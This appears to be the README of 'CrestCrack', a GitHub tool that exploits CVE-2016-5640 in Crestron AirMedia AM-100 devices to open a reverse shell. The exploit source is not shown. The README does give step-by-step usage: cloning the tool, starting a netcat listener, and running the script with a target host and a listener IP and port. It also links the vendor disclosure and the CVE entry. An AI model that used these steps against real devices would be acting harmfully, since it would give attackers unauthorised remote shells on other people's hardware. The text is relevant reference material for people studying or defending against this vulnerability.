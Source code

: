 ![Supported Python versions](https://img.shields.io/badge/python-3.8-blue.svg)
# CrestCrack
CrestCrack is a simple script that exploits CVE-2016-5640 / CLVA-2016-05-002 within the Crestron AirMedia AM-100 
(v1.1.1.11 - v1.2.1). When supplied with arguments CrestCrack will utilize netcat to create a reverse shell 
between your target and a netcat listener of your choice.
## Setup:
1. Clone a copy of CrestCrack `git clone https://github.com/vpnguy/CrestCrack` 2. Launch a netcat listener `nc 
-lvp 1337` 3. Execute CrestCrack against your target with your listener info `./crestcrack.py https://targethost 
255.255.255.255 1337` 4. ?????? 5. **PROFIT**
###Usage:
**./crescrack.py *[target host] [listener IP] [listener port]***
###Example:
**./crescrack.py https://targethost 123.123.123.123 3311**
 
## Additional Vulnerability Information:
[Cylance Vulnerability 
Disclosure](https://github.com/CylanceVulnResearch/disclosures/blob/master/CLVA-2016-05-002.md) [NIST 
CVE-2016-5640](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-5640)
## To be added:
- Error handling/bounds checking - Enhanced argument support - --help output

